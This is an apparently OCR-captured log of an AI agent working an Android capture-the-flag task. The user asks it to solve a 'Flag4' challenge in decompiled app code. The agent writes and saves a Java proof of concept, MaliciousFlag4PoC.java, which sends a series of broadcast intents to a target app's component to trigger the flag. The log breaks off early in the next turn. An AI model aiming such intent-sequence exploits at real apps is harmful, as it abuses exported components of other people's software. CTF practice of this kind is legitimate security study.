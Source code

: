             '    private static final String GET_FLAG_ACTION = '
            '"GET_FLAG_ACTION";\n'
            '\n'
            '    @Override\n'
            '    protected void onCreate(Bundle savedInstanceState) {\n'
            '        super.onCreate(savedInstanceState);\n'
            '\n'
            '        // Step 1: Send PREPARE_ACTION\n'
            '        sendAction(PREPARE_ACTION);\n'
            '\n'
            '        // Step 2: Send BUILD_ACTION\n'
            '        sendAction(BUILD_ACTION);\n'
            '\n'
            '        // Step 3: Send GET_FLAG_ACTION\n'
            '        sendAction(GET_FLAG_ACTION);\n'
            '\n'
            '        // Step 4: Send a final intent to trigger the flag\n'
            '        sendAction(""); // Empty action\n'
            '\n'
            '        Log.i("MaliciousFlag4PoC", "Intents sent");\n'
            '        finish(); // Close the activity after sending intents\n'
            '    }\n'
            '\n'
            '    private void sendAction(String action) {\n'
            '        Intent intent = new Intent();\n'
            '        intent.setComponent(new ComponentName(TARGET_PACKAGE, '
            'TARGET_ACTIVITY));\n'
            '        intent.setAction(action);\n'
            '        sendBroadcast(intent);\n'
            '        Log.i("MaliciousFlag4PoC", "Sent action: " + action);\n'
            '    }\n'
            '}\n',
 'file_path': 'MaliciousFlag4PoC.java'})

--- Tool Observation ---
Success: Wrote 1483 bytes to '/Users/apple/projects/ultron-ai/test_data/Android-2/MaliciousFlag4PoC.java'.


==================== TURN 8/50 ====================

--- Request to Model ---
Role: user
Text: My mission is to: This is decompiled code of android app, I want u to analyse the code and solve the Flag4 challenege by providing a working poc to solve the challenge in that activity. Begin your analysis.
----------
Role: model
Text: Okay, let's start by identifying the project type.


Function Call: id=None args={} name='get_project_type'
----------
Role: tool
Function Call: None
----------
Role: model
Text: Okay, the project type couldn't be automatically determined, but it's identified as primarily Java. Given the context of an Android app challenge, I'll assume it's an Android project.
